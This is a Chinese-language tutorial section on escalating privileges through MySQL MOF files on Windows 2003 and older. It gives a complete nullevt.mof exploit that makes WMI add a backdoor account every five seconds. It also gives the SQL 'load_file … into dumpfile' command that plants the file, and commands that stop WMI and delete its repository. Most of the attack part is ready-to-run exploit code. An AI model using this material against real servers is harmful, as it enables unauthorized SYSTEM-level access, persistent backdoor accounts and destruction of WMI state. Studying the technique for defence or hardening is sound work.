 ##### MOF 提权条件

*   Windows 2003 及以下版本
*   MySQL 启动身份具有权限去读写`c:/windows/system32/wbem/mof`目录
*   `secure-file-priv`参数不为`null`

##### MOF 提权原理

> MOF 文件每五秒就会执行，而且是系统权限，通过 MySQL 使用`load_file` 将文件写入`/wbme/mof`，然后系统每隔五秒就会执行一次上传的 MOF。MOF 当中有一段是 vbs 脚本，可以通过控制这段 vbs 脚本的内容让系统执行命令，进行提权。

*   `nullevt.mof`的利用代码如下：

```
#pragma namespace("\\\\.\\root\\subscription")
instance of __EventFilter as $EventFilter {
  EventNamespace = "Root\\Cimv2";
  Name = "filtP2";
  Query = "Select * From __InstanceModificationEvent "
  "Where TargetInstance Isa \"Win32_LocalTime\" "
  "And TargetInstance.Second = 5";
  QueryLanguage = "WQL";
};
instance of ActiveScriptEventConsumer as $Consumer {
  Name = "consPCSV2";
  ScriptingEngine = "JScript";
# 执行命令,新建用户naraku
  ScriptText = "var WSH = new ActiveXObject(\"WScript.Shell\")\nWSH.run(\"net.exe user naraku 123456 /add\")";
};
instance of __FilterToConsumerBinding {
  Consumer = $Consumer;
  Filter = $EventFilter;
};
```

##### 提权步骤

*   将上面的脚本上传到有读写权限的目录下，如：`C:/xxx/`
*   使用 sql 语句将文件导入到`c:/windows/system32/wbem/mof/`下
    *   这里不能使用`outfile`，因为会在末端写入新行，而 MOF 在被当作二进制文件时无法正常执行，所以需要用`dumpfile`导出一行数据。

```
select load_file("C:/xxx/test.mof") into dumpfile "c:/windows/system32/wbem/mof/nullevt.mof"
```

*   当我们成功把 MOF 导出时，mof 就会直接被执行，且 5 秒创建一次用户

##### 痕迹清除

*   提权成功后，就算被删号，MOF 也会在五秒内将原账号重建，如果要删除入侵账号可以执行以下命令：

```
$ net stop winmgmt
$ del c:/windows/system32/wbem/repository
$ net start winmgmt
```
